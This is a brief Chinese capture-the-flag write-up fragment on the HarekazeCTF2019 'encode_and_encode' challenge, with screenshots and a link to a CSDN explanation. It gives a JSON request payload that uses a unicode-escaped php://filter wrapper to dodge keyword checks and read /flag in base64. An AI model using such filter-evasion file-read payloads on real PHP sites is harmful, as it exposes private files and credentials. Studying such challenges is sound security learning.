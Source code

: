 ![upload successful](./images/pasted-484.png)

引用一篇CSDN的文章，这个不太理解<a href=https://blog.csdn.net/m0_62905261/article/details/125956021>[HarekazeCTF2019]encode_and_encode</a>


![upload successful](./images/pasted-488.png)
抓包传参:`{"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/\u0066\u006c\u0061\u0067"}`

